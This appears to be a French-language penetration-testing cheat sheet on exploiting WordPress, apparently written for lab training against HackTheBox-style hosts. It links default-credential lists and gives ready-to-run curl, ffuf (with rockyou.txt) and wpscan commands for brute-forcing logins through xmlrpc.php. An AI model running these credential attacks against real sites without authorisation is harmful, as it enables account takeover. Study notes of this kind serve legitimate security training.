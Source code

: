
---
# EXPLOITATION

- [ ] [[#Tester Weak credentials / Credential stuffing]]
- [ ] [[#Bruteforce de login]]
- [ ] [[#PLUGIN VULNERABLE]]
- [ ] [[#RCE THEME EDITOR]]
- [ ] [[#AUTOMATISATION AVEC METASPLOIT]]


## Tester Weak credentials / Credential stuffing

admin:admin, admin:password....
### Credential Stuffing (Liste de default creds)

Resources:

https://www.cirt.net/passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv
https://github.com/ihebski/DefaultCreds-cheat-sheet/tree/main



## Bruteforce de login

> [!TIP]
> Faire wordlist avec Cewl

### XMLRPC

POST request avec méthode WP.getUsersBlogs

```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

fuzzing avec ffuf (rapide)

```bash
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>roger</value></param><param><value>FUZZ</value></param></params></methodCall>" -u http://94.237.60.18:37358/xmlrpc.php -fr "Incorrect username or password." -t 64
```

Bruteforce avec WPScan

```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```
